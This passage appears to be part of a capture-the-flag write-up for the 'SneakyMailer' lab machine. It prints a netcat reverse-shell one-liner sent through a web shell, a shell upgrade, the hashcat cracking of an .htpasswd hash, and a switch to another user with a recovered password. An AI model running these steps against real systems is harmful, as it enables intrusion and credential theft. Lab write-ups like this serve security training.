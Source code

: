 payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f
```

Now, if we URL encode this with Burp, we can send ourselves a shell!

*http://dev.sneakycorp.htb/shell.php?cmd=payload-here*

```
$ whoami
www-data
```

Now, we'll upgrade our shell a bit:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
...
www-data@sneakymailer:$ 
CTRL+z
stty raw -echo
fg
ENTER Twice
```

Running linenum.sh reveals a password in a .htpasswd file:

```
/var/www/pypi.sneakycorp.htb/.htpasswd                                                                               
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/ 
```

We can crack this with hashcat:

```
$ hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt                                 
hashcat (v6.0.0) starting...                              
...
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
```

We now have more credentials:

**pypi:soufianeelhaoui**

These credentials do work for something on the box, but we'll get to that later.

From here, we can try to su to developer using his password for ftp:

```
$ su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
developer@sneakymailer:$
```

This user really doesn't help us, but looking at what ports are open, we see that 127.0.0.1:5000 is running, which isn't default. Curling this url gives us the following message:

```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Welcome to pypiserver!</title>
  </head>
  <body>
    <h1>
      Welcome to pypiserver!
    </h1>
    <p>
      This is a PyPI compatible package index serving 0 packages.
```